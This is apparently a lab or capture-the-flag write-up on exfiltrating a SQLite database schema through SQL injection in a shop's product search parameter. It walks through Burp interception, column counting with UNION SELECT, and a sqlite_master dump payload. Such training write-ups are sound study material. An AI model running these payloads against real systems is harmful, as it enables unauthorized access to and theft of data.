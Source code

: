 ## Database Schema
### Challenge: Exfiltrate the entire DB schema definition via SQL Injection.
### Category: Injection

Using burp, intercept a HTTP request for search product. Observe that the parameter `q=` is injectable.

When using burp repeater to modify the parameters `apple'` 

```
GET /rest/products/search?q=apple' -- HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 
...
```

We can observe from the error messages in response that this is a `sqlite3` database and the following sql statement is used for search function 

```sql
"SELECT * FROM Products WHERE ((name LIKE '%apple'%' OR description LIKE '%apple'%') AND deletedAt IS NULL) ORDER BY name"
```

Using the following sql statement we can `a%'))+union+select+1,2,3,4,5,6,7,8,9+--`
we can infer the number of columns which leads us to 9 since there is an error message `"SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns",`.

![sqli1.png](sqli.png)

![sqli2.png](../screens/sqli2.png)

To dump sqlite schema, we can use the following sql select statement cheatsheet from [https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet](https://github.com/unicornsasfuel/sqlite_sqli_cheat_sheet)
```sql
SELECT sql FROM sqlite_master WHERE type='table'
```

To combine with our sql union select statement `asd'))+union+select+sql,2,3,4,5,6,7,8,9+from+sqlite_master+where+type='table'--`

![sqli3.png](../screens/sqli3.png)

We have completed the challenge, but since this is a little not very 'humanly readable'. We could do the simple trick of copy paste it to sublime, and replace all 'TABLE' word with ENTER key. We have a the schema in a easier to see format

![sqli4.png](../screens/sqli4.png)